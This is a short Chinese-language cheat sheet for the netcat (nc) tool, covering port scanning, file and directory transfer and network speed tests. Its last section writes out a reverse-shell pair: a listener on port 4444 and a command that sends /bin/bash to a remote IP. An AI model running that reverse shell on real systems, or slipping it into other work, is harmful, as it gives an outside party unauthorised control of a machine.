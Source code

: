 ```yaml
---
# 这是页面的图标
icon: bit
# 这是文章的标题
title: nc
# 设置作者
author: lhz
# 设置写作时间
time: 2018-10-01
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - 安全工具
  - nc

comment: false
typora-root-url: ..\..\..\.vuepress\public

---
```


## nc

nc是netcat的简写，有着网络界的瑞士军刀美誉。因为它短小精悍、功能实用，被设计为一个简单、可靠的网络工具

### 作用

（1）实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口

（2）端口的扫描，nc可以作为client发起TCP或UDP连接

（3）机器之间传输文件

（4）机器之间网络测速   

### 参数

![image-20210915180906011](/assets/img/image-20210915180906011.png)

### 用法

- 网络连通性测试和端口扫描

  ```
  nc -v -z -w2 192.168.0.3 1-100  //tcp
  nc -u -z -w2 192.168.0.1 1-1000 //udp
  ```

- 使用nc传输文件和目录

  ```
  传输文件：
      接收：
      	nc -l 9995 >zabbix.rpm
      发送：
     	 	nc 10.0.1.162 9995 < zabbix-release-2.4-1.el6.noarch.rpm
  传输目录：
  	接收：
  		nc -l 9995 | tar xfvz -
      发送：
      	tar cfz - * | nc 10.0.1.162 9995
  ```

- 测试网速

  ```
  接收：
  	nc -l 9991 >/dev/null
  发送：
  	nc 10.0.1.161 9991 </dev/zero
  查看网速：
  	dstat
  ```

- 回弹shell

  ```
  监听
  nc -lvp 4444
  回弹
  nc -nv 192.168.141.134 4444 -e /bin/bash
  ```

  